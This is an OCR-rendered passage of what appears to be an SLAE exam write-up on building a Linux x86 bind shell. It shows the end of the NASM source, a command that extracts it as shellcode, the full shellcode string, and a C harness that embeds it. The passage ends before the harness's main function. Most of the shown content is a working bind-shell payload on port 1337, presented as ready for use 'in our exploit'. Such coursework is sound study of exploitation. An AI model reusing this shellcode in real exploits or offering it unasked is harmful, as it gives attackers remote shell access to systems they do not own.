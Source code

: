 ```nasm
    mov al, 0x3f
    mov cl, 0x2      ; STDERR
    int 0x80

    ; --------------------
    ; # Setup execv
    xor edx, edx
    push edx
    
    ; push //bin/sh onto the stack
    push 0x68732f6e
    push 0x69622f2f  

    ; Set address of esp to ebx, which points
    ; to //bin/sh
    mov ebx, esp
    
    xor ecx, ecx
    xor eax, eax
    mov al, 0xb      ; execv syscall
    int 0x80

    ; -----------------------------
    ; THE END - HAVE A NICE SHELL |
    ; -----------------------------
```
A screenshot of running the bind shell program can be seen below:

![image](slae-bind-shell.png)

The program is runnong port `1337` as seen in the top-right pane, and can be connected to by running `nc localhost 1337`. Once connected, normal linux commands can be used.

### Extracting shellcode

If we need a bind shell in our exploit, we can easily extract the assembly instructions as "shellcode", like so:

```
dubs3c@slae:~/SLAE/EXAM/assignment_1$ objdump -d ./assignment_1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed
's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x31\xdb\x31\xd2\xb0\x66\xb3\x01\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\xb3\x02\x52\x66\x68\x05\x39\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe
1\xcd\x80\xb0\x66\xb3\x04\x6a\x02\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x52\x52\x57\x89\xe1\xcd\x80\x89\xc7\xb0\x3f\x89\xfb\x89\xd1\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb
0\x3f\xb1\x02\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xc0\xb0\x0b\xcd\x80"
```

To demonstrate, this C program will execute our shellcode and creating our bind shell:

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x31\xdb\x31\xd2\xb0\x66\xb3\x01\x52\x6a\x01\x6a\x02\x89"
"\xe1\xcd\x80\x89\xc7\xb0\x66\xb3\x02\x52\x66\x68\x05\x39\x66\x6a"
"\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x6a"
"\x02\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x52\x52\x57\x89\xe1\xcd"
"\x80\x89\xc7\xb0\x3f\x89\xfb\x89\xd1\xcd\x80\xb0\x3f\xb1\x01\xcd"
"\x80\xb0\x3f\xb1\x02\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68"
"\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xc0\xb0\x0b\xcd\x80";

```